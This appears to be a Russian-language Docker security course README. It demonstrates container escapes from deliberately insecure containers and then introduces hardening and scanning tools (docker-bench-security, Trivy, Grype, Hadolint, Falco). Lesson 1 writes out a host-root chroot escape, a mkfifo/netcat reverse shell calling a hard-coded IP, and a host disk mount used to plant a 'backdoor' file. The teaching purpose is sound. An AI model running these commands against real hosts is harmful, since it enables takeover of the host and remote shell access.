# Урок 1

Устанавливаем docker и docker-compose (если еще не установлены)

```
apt-get update && apt-get install docker.io && apt-get install docker-compose
apt-get install git
```
Клонируем репозиторий:


Запускаем "плохой контейнер":
```
cd bad_container
docker-compose up -d 
```

Запускаем контейнер "внутри контейнера":
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 213.148.10.215 4444 > /tmp/f
```

Запускаем "хороший контейнер":
```
cd good_container
docker-compose up -d 
```

Запускаем контейнер "внутри" контейнера:
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 213.148.10.215 4444 > /tmp/f
```

Запускаем "очень плохой контейнер"
```
cd very_bad_container
docker-compose up -d 
```

```
mkdir /host_root
mount /dev/sda1 /host_root
echo "Backdoor installed!" > /host_root/tmp/backdoor.txt
```

Запускаем "очень хороший контейнер"
```
cd very_good_container
docker-compose up -d 
```

Проверяем
```
touch /tmp/testfile
chown appuser:appuser /tmp/testfile

date --set "2025-01-01"
```

CAP_SYS_TIME - отсутствует поэтому время изменить не удалось

# Урок 2
```
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh
```

# Урок 3 

Trivy
Проверка образов
```
docker run --rm aquasec/trivy image <имя_образа>
```
Проверка конфигурации
```
docker run --rm -v $(pwd):/project aquasec/trivy config /project/Dockerfile
```

Grype
```
docker run --rm anchore/grype <имя_образа>
```

Hadolint
```
docker run --rm -i hadolint/hadolint < Dockerfile
```
# Урок 4

Falco
```
curl -fsSL https://falco.org/repo/falcosecurity-packages.asc | \
sudo gpg --dearmor -o /usr/share/keyrings/falco-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/falco-archive-keyring.gpg] https://download.falco.org/packages/deb stable main" | \
sudo tee -a /etc/apt/sources.list.d/falcosecurity.list

sudo apt-get install apt-transport-https

apt-get update -y

FALCO_FRONTEND=noninteractive apt-get install -y falco
```
